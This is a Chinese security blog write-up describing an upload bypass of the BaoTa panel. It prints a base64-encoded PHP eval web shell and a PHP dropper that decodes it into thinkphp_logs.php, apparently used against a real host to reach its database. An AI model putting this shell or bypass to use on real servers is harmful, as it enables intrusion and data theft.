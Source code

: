 #  漏洞挖掘 | 记一次绕过宝塔的的文件上传   
原创 zkaq - caih  掌控安全EDU   2024-05-19 12:02  
  
扫码领资料  
  
获网安教程  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcrpvQG1VKMy1AQ1oVvUSeZYhLRYCeiaa3KSFkibg5xRjLlkwfIe7loMVfGuINInDQTVa4BibicW0iaTsKw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/b96CibCt70iaaJcib7FH02wTKvoHALAMw4fchVnBLMw4kTQ7B9oUy0RGfiacu34QEZgDpfia0sVmWrHcDZCV1Na5wDQ/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
本文由掌控安全学院 - caih 投稿  
  
前几天找到个可以上传任意文件的上传点，成功上传phpinfo页面并能访问，但是不能成功上传一句话，发现这台主机装了宝塔，经过反复尝试终于成功上传一句话并连接。  
**0x01 漏洞发现**结果前期摸索，发现了一个上传点，能上传任意文件，且会返回路径![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vco8rGemYwUFzjCYuOr11yxe9IH1NUvOn5rkdhQUTwDju9NGvKN7WiaH8KZfcpkFibJpQ5BCPDj4BgwA/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
尝试上传phpinfo页面，上传成功并返回地址（phpinfo页面忘记截图了），到这里想着getshell离我不远了，只有一句话的距离。  
0x02 遇见障碍一切当然没有想象中的顺利，上传一句话并没有返回路径，尝试不同的一句话，发现不管是使用冰蝎还是蚁剑的免杀马都不能成功返回路径，工具扫一波发现使用的是宝塔。在宝塔官网发现，应该是禁用了危险函数，对我们上传的php文件会进行检查，看是否存在危险函数。  
0x03 新思路![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vco8rGemYwUFzjCYuOr11yxeUJReegAysC60dbzlIAQRkqQpImSOO8mm7q2jyoz5L0V96fGkahxw1A/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
那么就得换一种思路，既然上传上去的一句话连不上，就尝试在本地生成一个一句话。由于我们能上传任意文件，于是先上传一个base64加密的一句话文本即txt文件，返回文件路径IDw/cGhwIEBldmFsKCRfUE9TVFsnYSddKTsgPz4=  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vco8rGemYwUFzjCYuOr11yxeM3aEd5I7on2c4W4Eib5ytZyZvPEYorXmn4J5d5UndR9CeToJozCwZEw/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
接下来我们上传一个将上述txt文件进行base64解码并生成一个名叫thinkphp_logs.php的一句话的php文件。内容为：  
```
<?php$path = “./“;$path = $path.”1.txt”;echo $path;//$fp = fopen(“$path”,”r”);//$str = fread($fp,filesize($path));$str = file_get_contents(“$path”,”r”);$str = base64_decode($str);echo $str;$handle = fopen(“./thinkphp_logs.php”,”w”);fwrite($handle,$str);fclose($handle);?>
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vco8rGemYwUFzjCYuOr11yxezlFK1ZTp6YlhDqPvia4UtzicN5OtaBia4KC1aS53l4xiaDgxdDcJNsmlJw/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
如上，由于此文件并没有危险函数，所以并未被删除，成功返回路径，需要执行这个php文件就得在web上访问一下他，利用返回的路径，在浏览器访问这个文件，该文件成功执行  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vco8rGemYwUFzjCYuOr11yxeafAUicWBhBDUmTXuhbxnZAPJggUZu3iaZW0IHbIr0lT9LICOBDvZ1Jdg/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
一句话在本地生成，宝塔并未删除，用冰蝎连接，连接成功  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vco8rGemYwUFzjCYuOr11yxetn6tFp5XxghZ4yjDMibc4xcO9mks2jK2ngb9IZvp1MughEDMqdibqiaXA/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
但是由于使用了宝塔，限制得很死并不能执行任何命令，只能连数据库，并未成功getshell  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vco8rGemYwUFzjCYuOr11yxe7JCBKdY4DrOBEHMMo56WNcp4Q7N0vH7qPKhEDXMzXxicHicr7qOSH47Q/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
0x04 总结这次并没有成功的getshell，只是获取了数据库。这里只是讲述了文件上传的新思路，如果不能成功上传一句话就不需要再去尝试直接上传一句话，可以考虑先上传不会被查杀的php文件，然后通过这个文件生成一句话，按照这种思路，生成一句话的方法就有很多种，就不限于这种加密之后再解密。  
  
```
```  
  
